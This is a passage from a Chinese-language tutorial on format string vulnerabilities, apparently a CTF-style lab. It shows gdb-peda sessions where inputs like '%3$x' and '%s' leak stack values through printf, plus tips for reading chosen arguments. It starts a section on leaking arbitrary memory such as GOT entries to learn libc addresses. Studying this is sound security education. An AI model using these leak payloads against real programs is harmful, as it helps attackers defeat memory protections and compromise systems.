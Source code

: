 ```gdb
   0xf7e4c68d <printf+13>:      mov    eax,DWORD PTR [eax-0x68]
   0xf7e4c693 <printf+19>:      lea    edx,[esp+0x14]
No argument
[------------------------------------stack-------------------------------------]
0000| 0xffffd25c --> 0x80484ce (<main+99>:      add    esp,0x10)
0004| 0xffffd260 --> 0xffffd270 ("%3$x")
0008| 0xffffd264 --> 0xffffd270 ("%3$x")
0012| 0xffffd268 --> 0xf7fe2a70 (add    edi,0x1a590)
0016| 0xffffd26c --> 0xf7ffdc08 --> 0xf7fd7000 (jg     0xf7fd7047)
0020| 0xffffd270 ("%3$x")
0024| 0xffffd274 --> 0xffffd300 --> 0x1
0028| 0xffffd278 --> 0xe0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 1, 0xf7e4c680 in printf () from /lib/i386-linux-gnu/libc.so.6
gdb-peda$ c
Continuing.
f7ffdc08[Inferior 1 (process 31524) exited normally]
```

可以看出，我们确实获得了 printf 的第 4 个参数所对应的值 f7ffdc08。

---

#### 获取栈变量对应字符串

此外，我们还可以获得栈变量对应的字符串，这其实就是需要用到%s 了。
**当然，并不是所有这样的都会正常运行，如果对应的变量不能够被解析为字符串地址，那么，程序就会直接崩溃。**

---

#### 小技巧总结

```
利用%x来获取对应栈的内存，但建议使用%p，可以不用考虑位数的区别。
利用%s来获取变量所对应地址的内容，只不过有零截断。
利用%order$x来获取指定参数的值，利用%order$s来获取指定参数对应地址的内容。
```

---

### 4.4 泄露任意地址内存

可以看出，在上面无论是泄露栈上连续的变量，还是说泄露指定的变量值，我们都没能完全控制我们所要泄露的变量的地址。这样的泄露固然有用，可是却不够强力有效。有时候，我们可能会想要泄露某一个 libc 函数的 got 表内容，从而得到其地址，进而获取 libc 版本以及其他函数的地址，这时候，能够完全控制泄露某个指定地址的内存就显得很重要了。那么我们究竟能不能这样做呢？自然也是可以的啦。

我们再仔细回想一下，一般来说，在格式化字符串漏洞中，我们所读取的格式化字符串都是在栈上的（因为是某个函数的局部变量，本例中 s 是 main 函数的局部变量）。那么也就是说，在调用输出函数的时候，其实，第一个参数的值其实就是该格式化字符串的地址。我们选择上面的某个函数调用为例.  
输入`%s`

```gdb
[----------------------------------registers-----------------------------------]
EAX: 0xffffd270 --> 0xf7007325
EBX: 0x0
ECX: 0x7fffffe2
EDX: 0xf7fb7870 --> 0x0
ESI: 0xf7fb6000 --> 0x1b2db0
EDI: 0xf7fb6000 --> 0x1b2db0
EBP: 0xffffd2e8 --> 0x0
ESP: 0xffffd25c --> 0x80484ce (<main+99>:       add    esp,0x10)
EIP: 0xf7e4c680 (<printf>:      call   0xf7f22c59)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7e4c67b <fprintf+27>:     ret
   0xf7e4c67c:  xchg   ax,ax
   0xf7e4c67e:  xchg   ax,ax
=> 0xf7e4c680 <printf>: call   0xf7f22c59
```